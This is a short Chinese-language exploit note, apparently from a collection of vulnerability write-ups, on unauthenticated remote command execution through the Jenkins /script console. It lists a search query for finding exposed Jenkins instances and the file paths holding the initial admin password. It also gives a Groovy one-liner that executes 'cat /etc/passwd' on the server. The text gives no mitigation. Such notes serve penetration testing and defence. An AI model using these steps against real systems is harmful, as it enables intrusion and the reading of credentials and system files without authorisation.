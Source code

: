 # 

# Jenkins script 未授权远程命令执行漏洞

## 漏洞描述

Jenkins 登录后访问 /script 页面，其中存在命令执行漏洞，当存在未授权的情况时导致服务器被入侵

## 漏洞影响

```
Jenkins
```

## 网络测绘

```
app="Jenkins"
```

## 漏洞复现

账号密码存在于：

```
Linux: /var/lib/jenkins/secrets/initialAdminPassword
Windows: C:\Users\RabbitMask\.jenkins\secrets\initialAdminPassword
```

登录后台，或在未授权的情况下访问

```
http://xxx.xxx.xxx.xxx/script
```

在脚本命命令模块执行系统命令

```
println 'cat /etc/passwd'.execute().text
```

![image-20220525163148014](./images/202205251631073.png)
